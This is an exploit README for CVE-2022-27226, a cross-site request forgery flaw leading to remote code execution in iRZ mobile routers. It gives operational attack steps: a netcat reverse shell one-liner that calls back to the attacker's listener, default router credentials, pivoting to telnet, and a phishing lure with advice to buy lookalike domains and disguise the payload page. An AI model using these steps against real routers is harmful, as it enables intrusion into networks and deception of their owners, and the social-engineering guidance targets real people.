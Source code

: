 # ez-iRZ
Exploit for CVE-2022-27226

Cross Site Request Forgery to Remote Code Execution in iRZ Mobile Routers

# Credits

<--Vulnerability Discovery-->

John Jackson

Chris Mack --- [https://github.com/0xHalcyon]

<--Exploit Development-->

Stephen Chavez --- [https://github.com/redragonx/]

Robert Willis

# Description 
A CSRF issue on iRZ Mobile Routers through 2022-03-16 allows a threat actor to create a crontab entry in the router administration panel.
The cronjob will consequently execute the entry on the threat actor's defined interval, leading to remote code execution, allowing
the threat actor to gain file system access. In addition, if the router's default credentials aren't rotated or a threat actor
discovers valid credentials, remote code execution can be achieved without user interaction.

# Pre-execution notes:
Starting two netcat listeners prior to attempting to catch a shell is pertinent, this is because the crontab, when run, will repeat the same
cronjob multiple times and your shell will die on the next cycle. You can't utilize nohup because the busybox env is fairly restrictive,
and alternatively you could modify the exploit with a different crontab entry interval, however the best way to defeat this without worrying
about crontab interval is two utilize multiple listeners for the first reverse shell catch. 

It was discovered that in most cases, the routers don't have the telnet port open externally - however, once gaining remote code execution, you
can utilize telnet to fix TTY *for the most part*. You need to have credentials to do so. If you're utilizing the full CSRF to RCE chain, we 
would recommend that you build a more comprehensive CSRF poc template that records the user's login event or the headers which may contain
the basic authorization header that is translated in the script. 

# Executing Post Authenticated Remote Code Execution Module (With Credentials)
Default credentials for these routers are typically root:root or admin:admin. If you have credentials, run:
```
python cve.py
```
Follow the instructions which are quite simple, then start two netcat listeners on two seperate ports.
```
nc -lvp 443
nc -lvp 5000
```
When you catch a reverse shell in the first listener, rerun the reverse shell one liner to gain a persistent shell:
```
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost_ip} {second_nc_listener_port} >/tmp/f
```
Finally, if you have credentials (which you should if you're using this portion of the module) - attempt to pivot to the internally restricted telnet service:
```
telnet 0.0.0.0
```
"But what if telnet is exposed externally?" Then login to the fucking router with the credentials, dumbass. 

# Executing CSRF to RCE Module (No Credentials)
The instructions for this module are nearly the same as the Post Auth RCE instructions. With the major difference being that you don't have credentials.

First and foremost, to exploit efficiently, you have to understand how this works. CSRF requires user interaction, meaning that you'll need to social engineer
someone. There are two potentional scenarios: User is logged in when they click the proof of concept button, or user isn't logged in. If they are already
authenticated to the router, the POST request to make the cronjob will be sent to the API and the user will see a blank page. If they aren't logged in,
the user will get a basic authentication prompt - and conveniently enough, the basic auth popup will have the IP of the victim router, if they enter their
credentials it sends the POST request to the API. 

We recommend attempting to buy a similar domain if the victim router is hosted on a subdomain or finding a provider
with the same subnet ranges for servers if it's a high-priority target. Refining the CSRF PoC might be work it for a priority target. 

Run the script
```
python cve.py
```
Follow the instructions, in the script, it will then generate a csrf template for you. We recommend naming it something a little more covert.
```
mv poc.new.html index.html
```
Host the PoC on your server, preferably on the same port as the victim router.
```
python3 -m http.server 80
```
Take the link and send it to the victim, ensuring that you append the name of the PoC file to the end of the url:
```
Hi sweetie, can you login to router pwease:
http://your-ip-in-the-united-states-bcuz-you-didnt-take-my-advice/index.html
```

